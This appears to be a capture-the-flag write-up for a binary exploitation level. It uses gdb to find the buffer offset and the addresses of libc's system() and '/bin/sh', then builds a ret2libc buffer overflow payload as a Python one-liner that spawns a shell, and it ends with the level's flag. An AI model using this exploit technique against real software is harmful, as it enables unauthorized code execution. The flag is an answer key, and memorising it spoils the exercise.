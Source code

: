 To follow child : in gdb `set follow-fork-mode child`
Offset --> 156

first we need to set a breakpoint at main, then run :
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

`info proc mappings`

```
(gdb) find 0xf7e2c000, 0xf7fd0000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

payload = [156bytes padding] + [addr of system()] + [4bytes padding] + [addr of "/bin/sh"]

```
(python -c 'print "A" * 156 + "\xd0\xae\xe6\xf7" + "BBBB" + "\xec\x97\xf8\xf7"'; cat) | ./level04
```

flag = `3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN`
